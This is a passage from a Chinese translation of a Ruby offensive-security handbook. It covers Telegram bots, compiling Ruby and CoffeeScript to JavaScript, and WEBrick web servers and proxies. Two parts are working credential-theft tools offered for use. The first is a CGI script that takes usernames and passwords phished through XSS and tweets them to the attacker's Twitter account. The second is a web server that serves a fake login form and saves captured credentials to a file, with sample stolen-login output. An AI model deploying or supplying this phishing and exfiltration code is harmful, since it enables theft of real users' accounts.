我们正在利用 XSS/HTML 注入漏洞，并诱使用户输入他们的用户名和密码。想法是，我们将制作一个[CGI 脚本](http://rubyfu.net/content/module_0x4__web_kung_fu/index.html#cgi)，获取被盗的凭据，然后将这些凭据作为通知或日志系统推文给我们

```
#!/usr/bin/ruby -w

require 'cgi'
require 'uri'
require 'twitter'

cgi  = CGI.new
puts cgi.header

user = CGI.escape cgi['user']
pass = CGI.escape cgi['pass']
time = Time.now.strftime("%D %T")

client = Twitter::REST::Client.new do |config|
        config.consumer_key        = "YOUR_CONSUMER_KEY"
        config.consumer_secret     = "YOUR_CONSUMER_SECRET"
        config.access_token        = "YOUR_ACCESS_TOKEN"
        config.access_token_secret = "YOUR_ACCESS_SECRET"
end
client.user("KINGSABRI")

if cgi.referer.nil? or cgi.referer.empty?
    # Twitter notification | WARNING! It's tweets, make sure your account is protected!!!
    client.update("[Info] No Referer!\n" + "#{CGI.unescape user}:#{CGI.unescape pass}")
else
    client.update("[Info] #{cgi.referer}\n #{CGI.unescape user}:#{CGI.unescape pass}")
end

puts "" 
```

# Telegram API

# Telegram API

我们知道 Telegram 是一款通过用户的手机号识别用户的消息应用。幸运的是，Telegram 有自己的 API -*Ruby 有一个包装 gem 用于* [*Telegram 的 Bot API*](https://core.telegram.org/bots/api) 叫做 [*telegram-bot-ruby*](https://github.com/atipugin/telegram-bot-ruby) - 允许你与其他服务集成，创建自定义工具，构建单人和多人游戏，构建社交服务，几乎可以做任何事情；你闻到了一些邪恶的味道吗？

+   安装 telegram-bot gem

    ```
    gem install telegram-bot-ruby 
    ```

+   基本用法

就像许多 API 一样，你必须获取一个[token](https://core.telegram.org/bots#botfather)来处理你的机器人。这里是一个基本用法

```
require 'telegram/bot'

token = 'YOUR_TELEGRAM_BOT_API_TOKEN'

Telegram::Bot::Client.run(token) do |bot|
  bot.listen do |message|
    case message.text
    when '/start'
      bot.api.send_message(chat_id: message.chat.id, text: "Hello, #{message.from.first_name}")
    when '/stop'
      bot.api.send_message(chat_id: message.chat.id, text: "Bye, #{message.from.first_name}")
    when '/rubyfu'
      bot.api.send_message(chat_id: message.chat.id, text: "Rubyfu, where Ruby goes eveil!")
    end
  end
end 
```

运行后，打开你的 Telegram 并找到机器人，开始聊天输入 `/start`，尝试发送 `/rubyfu`。


+   内联机器人

如果你从上面的例子中得到了那种邪恶的微笑，你可能会考虑与你的机器人[内联](https://core.telegram.org/bots/inline)互动，调用/@提及你的机器人，并要求机器人执行更多操作。

```
require 'telegram/bot'

bot.listen do |message|
  case message
  when Telegram::Bot::Types::InlineQuery
    results = [
      Telegram::Bot::Types::InlineQueryResultArticle
        .new(id: 1, title: 'First article', message_text: 'Very interesting text goes here.'),
      Telegram::Bot::Types::InlineQueryResultArticle
        .new(id: 2, title: 'Second article', message_text: 'Another interesting text here.')
    ]
    bot.api.answer_inline_query(inline_query_id: message.id, results: results)
  when Telegram::Bot::Types::Message
    bot.api.send_message(chat_id: message.chat.id, text: "Hello, #{message.from.first_name}!")
  end
end 
```

**资源**

+   有关在 Ruby 中快速创建 Telegram 机器人的好主题可以在[这里](http://www.sitepoint.com/quickly-create-a-telegram-bot-in-ruby/)找到。

+   有关[gem](https://github.com/atipugin/telegram-bot-ruby)和[API](https://core.telegram.org/bots)的更多用法和文档，你可以展示你的邪恶代码，也可以在 Rubyfu 中拉取它！

+   [机器人革命。了解你的 API 或死得很惨。](http://web.neurotiko.com/bots/2015/08/03/bots-know-your-api/)

# Ruby 2 JavaScript

# Ruby 2 JavaScript

## CoffeeScript

[CoffeeScript](http://coffeescript.org) 是一种编程语言，可以转译为 JavaScript。它添加了受 Ruby、Python 和 Haskell 启发的语法糖，旨在增强 JavaScript 的简洁性和可读性。

### 快速 CoffeeScript 回顾

这里是关于如何使用 CoffeeScript 的快速指南

+   安装 CoffeScript lib

    ```
    npm install -g coffee-script 
    ```

+   用于实时转换

    ```
    coffee --watch --compile script.coffee 
    ```

### Ruby CoffeScript gem

**Ruby** CoffeeScript gem 是官方 CoffeeScript 编译器的桥梁。

+   安装 CoffeeScript gem

    ```
    gem install coffee-script 
    ```

+   将 CoffeeScript 文件转换为 JavaScript

```
#!/usr/bin/env ruby
require 'coffee-script'
if ARGF
  file = File.open("#{ARGV[0]}.js", 'a')
  file.write CoffeeScript.compile(ARGF.read)
end 
```

运行它

```
ruby coffee2js.rb exploit.coffee 
```

## Opal

Opal 是一个将 Ruby 编译为 JavaScript 的源到源编译器。它还有一个 Ruby 核心库的实现。

+   安装 Opal gem

    ```
    gem install opal opal-jquery 
    ```

* * *

# Web 服务器和代理

# Ruby 作为 Web 服务器和代理

## Web 服务器

你可以在任何未使用的端口上为任何文件夹/文件运行 Ruby 作为 Web 服务器

```
ruby -run -e httpd /var/www/ -p 8000 
```

或者

```
require 'webrick'
server = WEBrick::HTTPServer.new :Port => 8000, :DocumentRoot => '/var/www/'
# WEBrick::Daemon.start   # Stating WEBRick as a daemon
server.start 
```

**HTTPS 服务器**

```
require 'webrick'
require 'webrick/https'

cert = [
  %w[CN localhost],
]

server = WEBrick::HTTPServer.new(:Port         => 8000,
                                 :SSLEnable    => true,
                                 :SSLCertName  => cert,
                                 :DocumentRoot => '/var/www/')
server.start 
```

**高级 HTTP 服务器**

在处理 [CVE-2016-4971(Wget)](https://github.com/KINGSABRI/CVE-in-Ruby/tree/master/CVE-2016-4971) 漏洞利用时，需要更高级和自定义的行为。这里有一个带有虚假登录表单的 Web 服务器，它会将收集到的凭据保存到一个文本文件中。当您不需要对 apache 配置进行自定义或者您没有足够的权限这样做时，这将非常方便。它不需要了解像 Rails 或 Senatra 这样的 Web 框架。

```
#!/usr/bin/env ruby
#
# KING SABRI | @KINGSABRI
#
require 'webrick'

#
# Servlet: Is a Web Server with custom behavior class
# It's a subclass of WEBrick::HTTPServlet::AbstractServlet
#
class RubyfuServlet < WEBrick::HTTPServlet::AbstractServlet

  # Control 'GET' request/response
  def do_GET(req, res)
    res.status = 200
    res['Content-Type']   = "text/html; charset=UTF-8"
    res['Server']         = "Rubyfu WebServer"
    res['Cache-Control']  = "no-store, no-cache,"
    res.body              = print_login(req)
  end

  private
  # Show login
  def print_login(req)
    html = %q{
      <center>
        <table cellpadding="3" border="1">
        <tr><td colspan="2"><center><h4><b>Enter your Username and Password</b></h4></center></td></tr>
        <form method="POST" action="/login">
                <tr><td><strong><b>Username:</b></strong></td><td><input name="username" type="text"></td></tr>
                <tr><td><strong><b>Password:</b></strong></td><td><input name="password" type="password"></td></tr>
                <tr><td colspan="2"><center><h1><b><input type="submit" value="Login" /></b></h1></center></td></tr>
        </form>
        </table>
      </center>
    }
  end

end

class Login < WEBrick::HTTPServlet::AbstractServlet

  # Control 'POST' request/response
  def do_POST(req, res)
    status, content_type, body = save_login(req)
    res.body  = body
  end

  # Save POST request
  def save_login(req)
    username, password = req.query['username'], req.query['password']

    if !(username && password).empty?
      # Print Credentials to console
      puts "\n-----[ START OF POST ]-----"
      puts "[+] #{username}:#{password}"
      puts "-----[ END OF POST ]-----\n\n"
      # Write Credentials to file
      File.open("credentials.txt", '+a') {|f| f.puts "#{username}:#{password}"}
      return 200, 'text/plain', 'Success! Thank you.'
    else
      puts "[!] Empty username and password."
      return 404, 'text/plain', 'Wrong username or password!'
    end

  end
end

begin
  port = ARGV[0]
  raise if ARGV.size < 1

  # Start Web Server
  puts "[+] Starting HTTP server on port: #{port}\n"
  server = WEBrick::HTTPServer.new(ServerName: "Rubyfu HTTP Server",
                                   Port: port,
                                   BindAddress: '0.0.0.0',
                                   AccessLog: [],
                                   Logger: WEBrick::Log.new(File.open(File::NULL, 'w'))
                                   )
  server.mount("/", RubyfuServlet)
  server.mount("/login", Login)
  trap "INT" do server.shutdown end
  server.start

rescue Exception => e
  puts "ruby #{__FILE__} <WEB_SERVER_PORT>" if ARGV.size < 1
  puts e, e.backtrace
  exit 0
end 
```

运行它

```
ruby webrick-server.rb 8080
[+] Starting HTTP server on port: 8080

-----[ START OF POST ]-----
[+] admin:AdminPassw0rd@!
-----[ END OF POST ]-----

-----[ START OF POST ]-----
[+] support:Puppies
-----[ END OF POST ]-----

[!] Empty username and password.

-----[ START OF POST ]-----
[+] user1:12345678
-----[ END OF POST ]----- 
```

您会发现凭据已保存在 'credentials.txt' 中

**参考资料**

+   [`ruby-doc.org/stdlib-2.0.0/libdoc/webrick/rdoc/WEBrick.html`](http://ruby-doc.org/stdlib-2.0.0/libdoc/webrick/rdoc/WEBrick.html)

+   [`www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/`](https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/)

+   [`rubyit.wordpress.com/2011/07/25/basic-rest-server-with-webrick/`](https://rubyit.wordpress.com/2011/07/25/basic-rest-server-with-webrick/)

+   [`gist.github.com/Integralist/2862917`](https://gist.github.com/Integralist/2862917)

## Web 代理

### 透明的 Web 代理

```
require 'webrick'
require 'webrick/httpproxy'

handler = proc do |req, res|
  puts "[*] Request"
  puts req.inspect
  request = req.request_line.split
  puts "METHOD: "      + "#{request[0]}"
  puts "Request URL: " + "#{request[1]}"
  puts "Request path: "+ "#{req.path}"
  puts "HTTP: "        + "#{request[2]}"
  puts "Referer: "     + "#{req['Referer']}"
  puts "User-Agent: "  + "#{req['User-Agent']}"
  puts "Host: "        + "#{req['Host']}"
  puts "Cookie: "      + "#{req['Cookie']}"
  puts "Connection: "  + "#{req['Connection']}"
  puts "Accept: "      + "#{req['accept']}"
  puts "Full header: " + "#{req.header}"
  puts "Body: "        + "#{req.body}"
  puts "----------[END OF REQUEST]----------"
  puts "\n\n"

  puts "[*] Response"
  puts res.inspect
  puts "Full header: " + "#{res.header}"
  puts "Body: " + "#{res.body}"
  puts "----------[END OF RESPONSE]----------"
  puts "\n\n\n"
end

proxy = WEBrick::HTTPProxyServer.new Port: 8000,
                                     ServerName: "RubyFuProxyServer",
                                     ServerSoftware: "RubyFu Proxy",
                                     ProxyContentHandler: handler

trap 'INT'  do proxy.shutdown end

proxy.start 
```

### 带身份验证的透明 Web 代理

嗯，知道构建代理服务器是如此简单真是太棒了。现在我们需要强制进行身份验证以连接到代理服务器

要在 WEBrick 中为请求启用身份验证，您将需要一个用户数据库和一个验证器。首先，这里是一个用于 DigestAuth 验证器的 htpasswd 数据库：

`:Realm` 用于为服务器上的多个资源提供不同组的不同访问权限。通常，您只需要为服务器设置一个域。

```
#!/usr/bin/env ruby
require 'webrick'
require 'webrick/httpproxy'

# Start creating the config
config = { :Realm => 'RubyFuSecureProxy' }
# Create an htpasswd database file in the same script path
htpasswd = WEBrick::HTTPAuth::Htpasswd.new 'rubyfuhtpasswd'
# Set authentication type
htpasswd.auth_type = WEBrick::HTTPAuth::DigestAuth
# Add user to the password config
htpasswd.set_passwd config[:Realm], 'rubyfu', 'P@ssw0rd'
# Flush the database (Save changes)
htpasswd.flush
# Add the database to the config
config[:UserDB] = htpasswd
# Create a global DigestAuth based on the config
@digest_auth = WEBrick::HTTPAuth::DigestAuth.new config

# Authenticate requests and responses
handler = proc do |request, response|
  @digest_auth.authenticate request, response
end

proxy = WEBrick::HTTPProxyServer.new Port: 8000,
                                     ServerName: "RubyFuSecureProxy",
                                     ServerSoftware: "RubyFu Proxy",
                                     ProxyContentHandler: handler

trap 'INT'  do proxy.shutdown end

proxy.start 
```

如果您操作正确，您将在浏览器中看到一个身份验证弹出窗口，就像下面这样。


